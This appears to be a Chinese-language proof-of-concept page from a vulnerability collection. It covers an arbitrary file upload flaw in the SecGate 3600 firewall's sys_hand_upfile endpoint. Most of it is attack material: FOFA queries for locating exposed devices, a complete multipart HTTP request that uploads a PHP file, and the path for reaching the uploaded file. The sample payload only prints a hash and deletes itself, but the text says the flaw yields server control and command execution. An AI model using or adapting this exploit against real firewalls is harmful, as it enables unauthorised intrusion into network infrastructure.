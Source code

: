 ## 网神SecGate 3600 防火墙sys_hand_upfile 任意文件上传漏洞

 网神 SecGate 3600 防火墙 sys_hand_upfile 存在任意文件上传漏洞，攻击者可构造特殊 HTTP 请求上传任意文件获取服务器权限，执行恶意命令等。

 ## fofa
 ```
body="./images/lsec/login/loading.gif"
title="网神SecGate 3600防火墙"

```

## poc
```
POST /?g=sys_hand_upfile HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows 98; Trident/3.0)
Content-Length: 244
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: multipart/form-data; boundary=gttd4i4aadwh9lmlp1ez
 
--gttd4i4aadwh9lmlp1ez
Content-Disposition: form-data; name="upfile"; filename="ceshi.php"
 
<?php echo md5('666');unlink(__FILE__);?>
--gttd4i4aadwh9lmlp1ez
Content-Disposition: form-data; name="submit_post"
 
sys_hand_upfile
--gttd4i4aadwh9lmlp1ez--
```

![image](https://github.com/wy876/POC/assets/139549762/6ba66f9f-affd-4600-ac29-2cfe98502b45)

访问文件路径
http//127.0.0.1/attachements/ceshi.php
